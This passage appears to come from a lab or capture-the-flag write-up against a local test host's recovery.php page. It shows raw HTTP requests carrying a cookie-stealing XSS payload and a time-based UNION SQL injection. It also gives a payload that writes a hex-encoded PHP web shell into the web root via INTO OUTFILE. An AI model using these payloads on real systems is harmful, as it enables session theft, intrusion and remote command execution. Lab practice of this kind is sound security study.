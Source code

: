 - `<script>alert`1`</script>`

```
POST /recovery.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 42
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://172.17.0.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.17.0.2/recovery.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=d181840f69c38ed49b0c9a1bb2c6a24b
Connection: keep-alive

id=<script>alert(document.cookie)</script>
```

## `Recovery.php` -> Sql Injection

```
POST /recovery.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 39
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://172.17.0.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.17.0.2/recovery.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=ee5875f3660d048db3ac7065cee0dbad
Connection: keep-alive

id=2222'+union+select+sleep(5),1,1+--+a
```

should be mysql/mariadb by the payload used

- Payload `id=2222'+union+select+sleep(5),1,1+--+a` -> `3 columns, in fact it sleeps with this`

Obtain a php sheell by injecting:

- Payload `id=2222'+union+select+1,1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D293B203F3E')+into+outfile+'/var/www/html/test.php'+--+a`
